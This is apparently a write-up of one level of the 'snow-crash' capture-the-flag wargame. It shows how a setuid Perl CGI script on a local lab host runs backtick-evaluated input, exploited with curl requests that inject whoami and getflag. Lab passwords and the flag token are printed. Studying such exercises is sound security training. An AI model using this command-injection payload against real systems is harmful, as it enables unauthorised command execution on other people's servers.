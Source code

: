 # Level04

Login as `level04`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level03
level03@192.168.1.64's password: qi0maab88jeaj46qoumi7maus
```

We have a Perl script in the home directory.

```bash
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

After `cat level04.pl` we notice that a web page running on port **4747**

We use `nc -vz localhost 4747` to check the connection without sending any data and in verbose mode.

The script expects a value **x** passed as a parameter which is passed to `x()` function. Then after evaluate the argument with backtick it prints out x with echo.

So we pass `whoami` command and notice that it's evaluated and executed as `flag04`

```bash
level04@SnowCrash:~$ curl localhost:4747/?x="\`/usr/bin/whoami\`"
flag04
```

So we can use `getflag` as parameter to use it as flag04 owner and  get the flag.

```bash
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
